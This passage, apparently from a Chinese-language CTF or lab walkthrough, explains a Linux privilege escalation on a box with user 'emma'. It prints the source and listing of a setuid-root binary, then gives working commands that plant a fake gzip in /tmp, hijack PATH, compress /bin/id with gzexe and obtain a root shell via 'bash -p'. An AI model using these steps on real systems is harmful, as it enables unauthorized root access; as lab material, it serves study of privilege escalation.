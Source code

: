 
我们可以用Root权限调用 `gzexe` 命令 
### 5.1. gzexe利用 劫持zip
`gzexe` 实际上是一个脚本可以压缩一个可执行文件。而且这个被压缩后的文件名字不会被改变而且也可以被执行，**执行被压缩后的可执行文件时 会调用gzip命令解压缩**
我们可以通过环境变量劫持 `gzip` 来提权
但是要提权肯定是需要一个**root**的权限去执行 `gzip`，

只要**A**被 `gzexe` 压缩，那么执行 `A` 就会触发 ``gzip``
关键点在于我们找哪个**A**被 `gzexe` 压缩

要求A必须能被root权限执行

```bash
emma@emma:~$ cat who.c
#include <stdio.h>
#include <stdlib.h>
void main(){
setuid(0);
setgid(0);
printf("Im \n");
system("/bin/id");
setuid(1000);
setgid(1000);
printf("But now Im \n");
system("/bin/id");
}

emma@emma:~$ ls -la
total 64
drwxr-xr-x 4 emma emma  4096 Dec  4 00:14 .
drwxr-xr-x 3 root root  4096 Feb  4  2021 ..
-rw-r--r-- 1 emma emma   220 Feb  4  2021 .bash_logout
-rw-r--r-- 1 emma emma  3526 Feb  4  2021 .bashrc
-rwx------ 1 emma emma  1920 Feb  4  2021 flag.sh
drwx------ 3 emma emma  4096 Dec  4 00:14 .gnupg
drwxr-xr-x 3 emma emma  4096 Feb  4  2021 .local
-rw-r--r-- 1 emma emma   807 Feb  4  2021 .profile
-rw------- 1 emma emma    14 Feb  4  2021 user.txt
-rwsr-s--- 1 root emma 16760 Feb  4  2021 who
-rw-r--r-- 1 emma emma   185 Feb  4  2021 who.c
-rw------- 1 emma emma    50 Feb  4  2021 .Xauthority

```

可以发现我们是可以执行 `who` 的，而且 从 `who.c` 里面看出里面两次执行了 `/bin/id` ，
一次是root执行，一次是普通用户执行

那我们只要利用 `gzexe` 压缩 `/bin/id`，然后执行 `who` 触发 `gzip` 完成提权

```bash
环境变量劫持gzip：
echo 'chmod +s /bin/bash' > /tmp/gzip
chmod +x /tmp/gzip
export PATH=/tmp:$PATH

gzexe压缩id:
gzexe /bin/id

执行who触发gzip完成提权
./who
bash -p
```
